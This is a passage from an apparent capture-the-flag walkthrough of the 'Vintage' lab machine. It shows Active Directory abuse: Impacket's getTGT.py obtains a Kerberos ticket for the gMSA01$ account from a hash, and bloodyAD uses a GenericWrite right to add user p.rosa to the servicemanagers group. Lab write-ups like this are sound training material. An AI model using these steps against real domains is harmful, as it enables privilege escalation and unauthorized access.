 ![alt text](../assets/image_vintage/2024-12-01_07-48_bloodhound_gmsa01.png)

Now we can use **BloodyAD** again to add for example our initial user **P.Rosa**

```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"GMSA01$" -hashes :'b3..78'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in GMSA01$.ccache

export KRB5CCNAME=GMSA01\$.ccache

nxc ldap dc01.vintage.htb --use-kcache
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [+] vintage.htb\gMSA01$ from ccache
```
### GenericWrite Abuse

```bash
bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add groupMember 'servicemanagers' 'p.rosa'
[+] p.rosa added to servicemanagers
```